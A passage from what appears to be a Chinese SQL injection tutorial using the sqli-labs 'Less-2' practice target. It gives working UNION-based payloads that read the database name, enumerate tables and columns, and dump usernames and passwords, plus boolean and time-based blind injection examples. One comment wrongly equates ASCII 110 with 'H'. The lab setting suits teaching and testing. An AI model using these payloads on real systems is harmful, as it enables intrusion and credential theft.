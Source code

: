 可以看到各个数据库名已经回显出来了。

**（3）获取当前数据库名**

通过当前页面的功能，我们可以知道它当前的数据库会涉及哪些数据，比如当前是账号创建和登录的页面，数据库必然包含账号密码信息，我们就可以先获取当前数据库名，后面再用来读取数据库中的字段值。MySQL 提供的 database() 函数可用来获取数据库名，因此我们可以像下面这样构建 URL：

```sql
http://localhost/Less-2/?id=0 union select 1,2,database()--+
```

访问后我们得到当前数据库名为 security，接下来就可以去尝试读取该数据库内的内容。

**（4）枚举数据库中的表名**

通过以下语句获取存储账号密码的表名 users：

```sql
http://localhost/Less-2/?id=0 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+
```

访问上述特意构造的链接后，页面返回以下内容：

![图片9.png](https://s0.lgstatic.com/i/image2/M01/04/8B/Cip5yF_y7_OAZnv_AAGOoagH4-c761.png)  
图 9：数据库中的表名

**（5）枚举表中的字段名**

得到表名后，我们可以先看看有哪些字段名，为后面获取字段值做铺垫。由于表 information_schema.columns 中包含字段列表信息，因此我们可以通过它获取每个字段的名称，构造以下 URL 获取：

```java
http://localhost/Less-2/?id=0 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'--+
```

访问后页面返回以下内容，得到表中的各个字段名：

![Drawing 9.png](https://s0.lgstatic.com/i/image/M00/8C/B3/CgqCHl_y7yGAUF0ZAAAojuOFTVI874.png)  
图 10：表中的字段名

**（6）获取字段值**

前面我们已经拿到字段名、表名，接下来就可以直接通过 select 读取相应字段的值，比如此处用来获取 username 和 password 的值的 URL 请求：

```java
http://localhost/Less-2/?id=0 union select 1,2,group_concat(username,': ',password) from users--+
```

访问后页面返回各字段值：

![图片11.png](https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y7_uAa4SGAADxQK_Xy8o851.png)  
图 11：各字段的值

**（7）盲注猜解字符串**

前面的示例都是在有错误回显的情况下，通过 SQL 注入获得我们想要的用户信息，但有时在渗透测试时，网站并没有错误回显，此时就只能去盲注猜解出数据库名、字段名和值等关键信息。盲注猜解字符串的主要方式有布尔型盲注和基于时间延迟盲注，相关的知识我在《06 \| SQL 注入：小心数据库被拖走（上）》中介绍过了。

```sql
布尔型盲注：
http://localhost/Less-2/?id=1 and ascii(substr((select database()),1,1))>110--+ 判断数据库名的第一个字符的 ascii 值是否大于 110('H')
基于时间延迟盲注：
http://localhost/Less-2/?id=1 union select if(SUBSTRING(password,1,4)='Dumb',sleep(5),1),2,3 from users--+ 提取密码前四个字符做判断，正确就延迟 5 秒，错误返回 1
```
